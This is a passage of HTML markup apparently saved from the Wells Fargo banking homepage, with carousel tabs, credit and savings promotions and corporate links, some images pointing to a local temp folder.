<LI aria-expanded=true role=tab tabIndex=0 aria-posinset=1 aria-selected=true aria-controls=nbaDefaultPanels1 aria-setsize=7 id=nbaDefault7 class="show7 show1" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em; TOP: 0px" data-ia-code="C_oth_fraud_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: 0px; HEIGHT: 85px; BORDER-RIGHT: 0px; WIDTH: 165px; BORDER-BOTTOM: 0px; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: 0px; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px"><SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: bold 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Security Center</SPAN></DIV></LI>
<LI aria-expanded=true role=tab tabIndex=0 aria-posinset=2 aria-selected=true aria-controls=nbaDefaultPanels2 aria-setsize=7 id=nbaDefault1 class="show1 show2" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em" data-ia-code="C_ccd_credit_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: rgb(181,173,173) 1px solid; HEIGHT: 87px; BORDER-RIGHT: rgb(181,173,173) 1px solid; WIDTH: 163px; BORDER-BOTTOM: rgb(181,173,173) 1px solid; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: rgb(181,173,173) 1px solid; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px">
<SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Borrowing and Credit</SPAN></DIV></LI>
<LI aria-expanded=false role=tab aria-posinset=3 aria-selected=false aria-controls=nbaDefaultPanels3 aria-setsize=7 id=nbaDefault2 class="show2 show3" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em" data-ia-code="C_chk_banking_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: rgb(181,173,173) 1px solid; HEIGHT: 87px; BORDER-RIGHT: rgb(181,173,173) 1px solid; WIDTH: 163px; BORDER-BOTTOM: rgb(181,173,173) 1px solid; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: rgb(181,173,173) 1px solid; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px">
<SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Banking Made Easy</SPAN></DIV></LI>
<LI aria-expanded=false role=tab aria-posinset=4 aria-selected=false aria-controls=nbaDefaultPanels4 aria-setsize=7 id=nbaDefault3 class="show3 show4" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em" data-ia-code="C_irw_retirement_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: rgb(181,173,173) 1px solid; HEIGHT: 87px; BORDER-RIGHT: rgb(181,173,173) 1px solid; WIDTH: 163px; BORDER-BOTTOM: rgb(181,173,173) 1px solid; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: rgb(181,173,173) 1px solid; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px">
<SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Retirement</SPAN></DIV></LI>
<LI aria-expanded=false role=tab aria-posinset=5 aria-selected=false aria-controls=nbaDefaultPanels5 aria-setsize=7 id=nbaDefault4 class="show4 show5" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em" data-ia-code="C_mtg_homelending_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: rgb(181,173,173) 1px solid; HEIGHT: 87px; BORDER-RIGHT: rgb(181,173,173) 1px solid; WIDTH: 163px; BORDER-BOTTOM: rgb(181,173,173) 1px solid; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: rgb(181,173,173) 1px solid; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px">
<SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Home Lending</SPAN></DIV></LI>
<LI aria-expanded=false role=tab aria-posinset=6 aria-selected=false aria-controls=nbaDefaultPanels6 aria-setsize=7 id=nbaDefault5 class="show5 show6" style="CURSOR: pointer; HEIGHT: 119px; POSITION: relative; COLOR: rgb(255,255,255); MARGIN: 0px 0px 4px; DISPLAY: block; LINE-HEIGHT: 1.4em" data-ia-code="C_efs_college_hpcarousel_web">
<DIV class=thumbText style="BORDER-TOP: rgb(181,173,173) 1px solid; HEIGHT: 87px; BORDER-RIGHT: rgb(181,173,173) 1px solid; WIDTH: 163px; BORDER-BOTTOM: rgb(181,173,173) 1px solid; POSITION: absolute; COLOR: rgb(255,255,255); PADDING-BOTTOM: 15px; TEXT-ALIGN: center; PADDING-TOP: 15px; PADDING-LEFT: 15px; BORDER-LEFT: rgb(181,173,173) 1px solid; Z-INDEX: 1; LINE-HEIGHT: 89px; PADDING-RIGHT: 15px; inset: 0px">
<SPAN style="VERTICAL-ALIGN: middle; COLOR: rgb(59,51,49); FONT: 18px/23px Verdana, Arial, sans-serif; DISPLAY: inline-table">Going to College</SPAN></DIV></LI></UL></DIV><A role=button tabIndex=-1 aria-hidden=true class="paddle nextPaddle" style="OVERFLOW: hidden; CURSOR: pointer; TEXT-DECORATION: none; HEIGHT: 22px; WIDTH: 38px; RIGHT: 116px; POSITION: absolute; PADDING-TOP: 10px; Z-INDEX: 2; DISPLAY: block; BOTTOM: 28px" href="javascript:void(0);">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -44px; BORDER-LEFT: 0px; TOP: -6px" alt="Next Slide" src="https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png"></A>
 <A role=button tabIndex=-1 aria-hidden=true class="paddle nextPaddle" style="OVERFLOW: hidden; CURSOR: pointer; TEXT-DECORATION: none; HEIGHT: 22px; WIDTH: 38px; RIGHT: 116px; POSITION: absolute; PADDING-TOP: 10px; Z-INDEX: 2; DISPLAY: block; BOTTOM: 28px" href="javascript:void(0);">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BACKGROUND-IMAGE: url(https://www01.wellsfargomedia.com/assets/images/css/template/homepage/home_sprite_image.png); BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -44px; BORDER-LEFT: 0px; TOP: -6px" alt="Next Slide" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A> 
<DIV class=carouselFrameWrapper style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV role=tabpanel tabIndex=0 id=nbaDefaultPanels1 class="carouselFrame item1" style="OVERFLOW: hidden; HEIGHT: 485px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: block; TOP: 0px; PADDING-RIGHT: 0px" aria-labelledby=nbaDefault7 data-ctid="tcm:91-146912-32" data-cid="tcm:84-147031-16" data-ia-code="C_ccd_credit_hpcarousel_web">
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">Begin item 1</SPAN>
 <SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">Begin item 1</SPAN> 
<DIV class=c63contentMain style="HEIGHT: 485px; WIDTH: 970px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">&nbsp;
<DIV class="c63content nbatheme1" style="WIDTH: 655px; POSITION: absolute; COLOR: rgb(67,67,67); PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; LEFT: 40px; TOP: 52px; PADDING-RIGHT: 0px">
<H2 style="WIDTH: 545px; COLOR: rgb(59,51,49); FONT: 28px/35px Georgia; MARGIN: 0px 0px 14px">See how we can help you achieve your goals</H2>
<H3 style="WIDTH: 360px; COLOR: rgb(59,51,49); FONT: 22px/28px Verdana, Arial, sans-serif; MARGIN: 0px 0px 20px">Explore your credit options</H3>
<UL style="LIST-STYLE-TYPE: none; COLOR: ; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px; PADDING-RIGHT: 0px">
<LI style="OVERFLOW: hidden; HEIGHT: 46px; WIDTH: 325px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 0px">
<DIV class=c95textContent style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV class=nbaWrapper style="HEIGHT: 46px; WIDTH: 42px; VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 20px">
<DIV class=nbaImg1 style="OVERFLOW: hidden; HEIGHT: 46px; WIDTH: 42px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px"><A tabIndex=-1 aria-hidden=true style="FONT-SIZE: 16px; TEXT-DECORATION: none; COLOR: rgb(59,51,49); DISPLAY: table; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/goals-credit/smarter-credit/improve-credit/?linkLoc=nba">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; VERTICAL-ALIGN: middle; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -220px; BORDER-LEFT: 0px; DISPLAY: table-cell; TOP: -175px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A></DIV></DIV>
<SPAN style="VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; FONT: 16px/20px Verdana, Arial, sans-serif; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px"><A style="FONT-SIZE: 16px; TEXT-DECORATION: none; COLOR: rgb(59,51,49); DISPLAY: table; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/goals-credit/smarter-credit/improve-credit/?linkLoc=nba">Improve your credit &gt;</A></SPAN></DIV></LI>
<LI style="OVERFLOW: hidden; HEIGHT: 46px; WIDTH: 325px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 10px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 0px">
<DIV class=c95textContent style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV class=nbaWrapper style="HEIGHT: 46px; WIDTH: 42px; VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 20px">
<DIV class=nbaImg2 style="OVERFLOW: hidden; HEIGHT: 46px; WIDTH: 42px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px"><A tabIndex=-1 aria-hidden=true style="FONT-SIZE: 16px; TEXT-DECORATION: none; COLOR: rgb(59,51,49); DISPLAY: table; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/goals-credit/debt-to-income-calculator/?linkLoc=nba">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; VERTICAL-ALIGN: middle; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: 0px; BORDER-LEFT: 0px; DISPLAY: table-cell; TOP: -231px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A></DIV></DIV><SPAN style="VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; FONT: 16px/20px Verdana, Arial, sans-serif; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px">
<A style="FONT-SIZE: 16px; TEXT-DECORATION: none; COLOR: rgb(59,51,49); DISPLAY: table; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/goals-credit/debt-to-income-calculator/?linkLoc=nba">Calculate your debt-to-income ratio &gt;</A></SPAN></DIV></LI>
<LI style="OVERFLOW: hidden; HEIGHT: 46px; WIDTH: 325px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 15px; LINE-HEIGHT: 1.4em; PADDING-RIGHT: 0px">
<DIV class=c95textContent style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV class=nbaWrapper style="HEIGHT: 46px; WIDTH: 42px; VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 20px">
<DIV class=nbaImg3 style="OVERFLOW: hidden; HEIGHT: 46px; WIDTH: 42px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px"><A tabIndex=-1 aria-hidden=true style="FONT-SIZE: 16px; TEXT-DECORATION: none; COLOR: rgb(59,51,49); DISPLAY: table; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/goals-credit/smarter-credit/manage-your-debt/consider-debt-consolidation/?linkLoc=nba">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; VERTICAL-ALIGN: middle; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -169px; BORDER-LEFT: 0px; DISPLAY: table-cell; TOP: -173px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></A></DIV></DIV>
<SPAN style="VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; FONT: 16px/20px Verdana, Arial, sans-serif; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px"><A style="FONT-SIZE: 16px; TEXT-DECORATION: none; COLOR: rgb(59,51,49); DISPLAY: table; LINE-HEIGHT: 20px" href="https://www.wellsfargo.com/goals-credit/smarter-credit/manage-your-debt/consider-debt-consolidation/?linkLoc=nba">Consolidate your debt &gt;</A></SPAN></DIV></LI></UL>
<P style="MARGIN: 0px 0px 1em; LINE-HEIGHT: 1.4em"><A role=button class=c7 style="TEXT-DECORATION: none; COLOR: rgb(255,255,255); PADDING-BOTTOM: 6px; TEXT-ALIGN: center; PADDING-TOP: 8px; FONT: 16px Verdana, Arial, sans-serif; PADDING-LEFT: 25px; MIN-HEIGHT: 23px; DISPLAY: inline-block; PADDING-RIGHT: 25px; BACKGROUND-COLOR: rgb(215,30,40); border-radius: 8px" href="https://www.wellsfargo.com/goals-credit/?linkLoc=nba">Go to Borrowing and Credit</A></P></DIV></DIV>
<SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">End item 1</SPAN>
 <SPAN class=hidden style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 1px; BORDER-RIGHT: 0px; WIDTH: 1px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; PADDING-RIGHT: 0px; clip-path: inset(50%)">End item 1</SPAN></DIV></DIV></DIV>
<DIV class="largePromo fadeInElement" style="POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 40px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px; opacity: 0" data-ctid="tcm:224-146926-32" data-cid="tcm:242-147041-16">
<DIV lang=en class=iaRendered style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px" data-offer-id="C_sav_wtosave_productservices_web" data-slot-id="WF_CON_HP_PROD_SVC_BNR">
<DIV class=inner style="WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px" data-ctid="tcm:91-146914-32" data-cid="tcm:402-207269-16">
<DIV class=col1 style="WIDTH: 489px; VERTICAL-ALIGN: middle; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px"><A tabIndex=-1 aria-hidden=true class=i7 href="https://www.wellsfargo.com/savings-cds/way2save/" data-tracking-id="">
<IMG class=deferred style="BORDER-TOP: 0px; HEIGHT: 234px; BORDER-RIGHT: 0px; WIDTH: 489px; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px; DISPLAY: block" alt="" src="https://www20.wellsfargomedia.com/assets/images/contextual/banner/savings/489x234/6818104_gettyimages-890847206_489_234.jpg" data-deferred-src="https://www20.wellsfargomedia.com/assets/images/contextual/banner/savings/489x234/6818104_gettyimages-890847206_489_234.jpg"></A></DIV>
<DIV class=col2 style="BORDER-TOP: rgb(255,205,65) 2px solid; BORDER-RIGHT: rgb(242,237,235) 1px solid; WIDTH: 433px; VERTICAL-ALIGN: middle; BORDER-BOTTOM: rgb(242,237,235) 1px solid; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 50px; DISPLAY: table-cell; PADDING-RIGHT: 50px">
<H3 style="FONT-SIZE: 28px; FONT-FAMILY: Georgia, serif; FONT-WEIGHT: 400; COLOR: rgb(20,20,20); MARGIN: 0px 0px 8px; LINE-HEIGHT: 35px">Ready for what's next</H3><SPAN style="MARGIN-BOTTOM: 34px; COLOR: rgb(20,20,20); FONT: 14px/18px Verdana, Arial, sans-serif; DISPLAY: block">Way2Save<SUP style="FONT-SIZE: 10px; VERTICAL-ALIGN: baseline; POSITION: relative; LINE-HEIGHT: 0; TOP: -0.35em">&reg;</SUP>: Convenient, automatic options for building savings</SPAN>
 <A role=button class=c7 style="FONT-SIZE: 15px; CURSOR: pointer; TEXT-DECORATION: none; BORDER-TOP: 0px; HEIGHT: 24px; FONT-FAMILY: Verdana, Arial, sans-serif; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; FONT-WEIGHT: bold; COLOR: rgb(20,20,20); PADDING-BOTTOM: 3px; PADDING-TOP: 6px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; DISPLAY: inline-block; PADDING-RIGHT: 25px; border-radius: 2px" href="https://www.wellsfargo.com/savings-cds/way2save/" data-tracking-id="">Get Started</A></DIV></DIV></DIV></DIV>
<DIV class="recommendedTitleWrapper fadeInElement" style="WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 32px auto 18px; PADDING-RIGHT: 0px; opacity: 0" data-ctid="tcm:223-146919-32" data-cid="tcm:182-147037-16">
<H3 class=recommendedTitle style="FONT-SIZE: 28px; FONT-FAMILY: Georgia, serif; WIDTH: 970px; FONT-WEIGHT: 400; COLOR: rgb(20,20,20); MARGIN: 0px auto">Suggested for you</H3></DIV>
<DIV class="hpAdditional fadeInElement" style="HEIGHT: 194px; WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; DISPLAY: block; PADDING-RIGHT: 0px; opacity: 0" data-ctid="tcm:224-146928-32" data-cid="tcm:242-147042-16">
<DIV class=hpAdditionalMainCol style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table; PADDING-RIGHT: 0px">
<DIV lang=en class=iaRendered style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px" data-offer-id="C_chk_everydaychecking_hpsec_web" data-slot-id="WF_CON_HP_SECONDARY_BNR_1">
<DIV class="hpAdditionalContentImg fadeMe" style="HEIGHT: 194px; FONT-FAMILY: Verdana, Arial, sans-serif; WIDTH: 304px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px" data-ctid="tcm:91-146900-32" data-cid="tcm:402-207722-16"></DIV></DIV>
<DIV lang=en class=cmsDefault style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px; VISIBILITY: visible !important" data-slot-id="WF_CON_HP_SECONDARY_BNR_2">
<DIV class="hpAdditionalContentImg fadeMe" style="HEIGHT: 194px; FONT-FAMILY: Verdana, Arial, sans-serif; WIDTH: 304px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 29px; DISPLAY: table-cell; PADDING-RIGHT: 0px" data-ctid="tcm:91-146900-32" data-cid="tcm:84-147019-16"></DIV></DIV>
<DIV lang=en class=cmsDefault style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; DISPLAY: table-cell; PADDING-RIGHT: 0px; VISIBILITY: visible !important" data-slot-id="WF_CON_HP_SECONDARY_BNR_3">
<DIV class="hpAdditionalContentImg fadeMe" style="HEIGHT: 194px; FONT-FAMILY: Verdana, Arial, sans-serif; WIDTH: 304px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 29px; DISPLAY: table-cell; PADDING-RIGHT: 0px" data-ctid="tcm:91-146900-32" data-cid="tcm:84-146971-16"></DIV></DIV></DIV></DIV>
<DIV class="bottomRegion fadeInElement" style="POSITION: relative; PADDING-BOTTOM: 56px; PADDING-TOP: 69px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px; opacity: 0">
<DIV class=inner style="HEIGHT: 240px; WIDTH: 970px; POSITION: relative; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV class=col1 style="BORDER-TOP: rgb(255,205,65) 2px solid; HEIGHT: 215px; BORDER-RIGHT: rgb(242,237,235) 1px solid; WIDTH: 452px; BORDER-BOTTOM: rgb(242,237,235) 1px solid; FLOAT: right; PADDING-BOTTOM: 11px; PADDING-TOP: 11px; PADDING-LEFT: 78px; PADDING-RIGHT: 25px">
<H2 style="COLOR: rgb(20,20,20); FONT: 24px/30px Georgia, serif; MARGIN: 0px 0px 12px">Serving our customers and communities</H2>
<P style="COLOR: rgb(20,20,20); FONT: 14px/20px Verdana, Arial, sans-serif; MARGIN: 0px 0px 16px">It doesn't happen with one transaction, in one day on the job or in one quarter. It's earned relationship by relationship.</P>
<UL id=communityLinks style="LIST-STYLE-TYPE: none; FONT-SIZE: 14px; FONT-FAMILY: Verdana, Arial, sans-serif; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px; PADDING-RIGHT: 0px">
<LI style="FONT-SIZE: 14px; FONT-FAMILY: Verdana, Arial, sans-serif; FONT-WEIGHT: normal; COLOR: rgb(59,51,49); MARGIN: 0px auto 8px; LINE-HEIGHT: 18px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49); PADDING-BOTTOM: 9px; PADDING-TOP: 9px" href="https://www.wellsfargo.com/about/corporate/"><SPAN class=communityLinkImg style="OVERFLOW: hidden; HEIGHT: 12px; WIDTH: 5px; DISPLAY: inline-block; PADDING-RIGHT: 15px">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -213px; BORDER-LEFT: 0px; TOP: -11px; PADDING-RIGHT: 15px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></SPAN><SPAN>&nbsp;</SPAN>Who We Are</A> 
<LI style="FONT-SIZE: 14px; FONT-FAMILY: Verdana, Arial, sans-serif; FONT-WEIGHT: normal; COLOR: rgb(59,51,49); MARGIN: 0px auto 8px; LINE-HEIGHT: 18px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49); PADDING-BOTTOM: 9px; PADDING-TOP: 9px" href="https://www.wellsfargo.com/help/customer-redress/"><SPAN class=communityLinkImg style="OVERFLOW: hidden; HEIGHT: 12px; WIDTH: 5px; DISPLAY: inline-block; PADDING-RIGHT: 15px">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -213px; BORDER-LEFT: 0px; TOP: -11px; PADDING-RIGHT: 15px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></SPAN><SPAN>&nbsp;</SPAN>Making Things Right &#8211; Customer Redress</A> 
<LI style="FONT-SIZE: 14px; FONT-FAMILY: Verdana, Arial, sans-serif; FONT-WEIGHT: normal; COLOR: rgb(59,51,49); MARGIN: 0px auto 8px; LINE-HEIGHT: 18px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49); PADDING-BOTTOM: 9px; PADDING-TOP: 9px" href="https://www.wellsfargo.com/about/corporate-responsibility/"><SPAN class=communityLinkImg style="OVERFLOW: hidden; HEIGHT: 12px; WIDTH: 5px; DISPLAY: inline-block; PADDING-RIGHT: 15px">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -213px; BORDER-LEFT: 0px; TOP: -11px; PADDING-RIGHT: 15px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></SPAN><SPAN>&nbsp;</SPAN>Corporate Responsibility</A> 
<LI style="FONT-SIZE: 14px; FONT-FAMILY: Verdana, Arial, sans-serif; FONT-WEIGHT: normal; COLOR: rgb(59,51,49); MARGIN: 0px auto; LINE-HEIGHT: 18px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49); PADDING-BOTTOM: 9px; PADDING-TOP: 9px" href="https://www.wellsfargo.com/stories/"><SPAN class=communityLinkImg style="OVERFLOW: hidden; HEIGHT: 12px; WIDTH: 5px; DISPLAY: inline-block; PADDING-RIGHT: 15px">
<IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -213px; BORDER-LEFT: 0px; TOP: -11px; PADDING-RIGHT: 15px" alt="" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></SPAN><SPAN>&nbsp;</SPAN>Wells Fargo Stories</A></LI></UL></DIV>
